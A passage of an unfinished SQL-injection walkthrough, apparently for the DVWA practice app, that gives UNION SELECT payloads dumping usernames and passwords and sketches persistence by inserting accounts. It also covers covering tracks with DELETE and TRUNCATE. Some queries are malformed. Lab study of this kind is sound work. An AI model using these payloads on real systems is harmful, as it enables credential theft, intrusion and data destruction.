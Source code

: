 `<Insert screenshot>`

```sql
' UNION SELECT concat(user,'\n',password), NULL FROM users#

' UNION SELECT concat(user,0x0a,password), NULL FROM users#

' UNION SELECT group_concat(user,0x0a,password), NULL FROM users#
```

`<Insert screenshot>`

TODO: Use john the ripper and Name-That-Hash to demonstrate cracking weak passwords with a dictionary list after dumping the credentials

## 02 - Initial Foothold and Persistence

### 2.1 - Create User Account

TODO: Figure out using SQL queries to create a user account

#### 2.1.1 - Conditions

1. The DB user must have **SELECT**, **INSERT**, **UPDATE**, **DELETE** privileges.

#### 2.1.2 - Enumeration...

#### 2.1.3 - INSERT values

`' INSERT INTO dvwa.users values()#`

#### 2.1.4 - UPDATE values

`' UPDATE INTO dvwa.users values()#`

#### 2.1.5 - Clean Traces

- DELETE Query after INSERTing

- UPDATE Query

```sql
SELECT * FROM <database_name>.<table_name>;

' UNION SELECT * NULL FROM <database_name>.<table_name>#
```

Empty the table with the DELETE Statement

```sql
DELETE FROM <database_name>.<table_name>
```

Empty the table with the TRUNCATE Statement

```sql
TRUNCATE TABLE <database_name>.<table_name>;
```
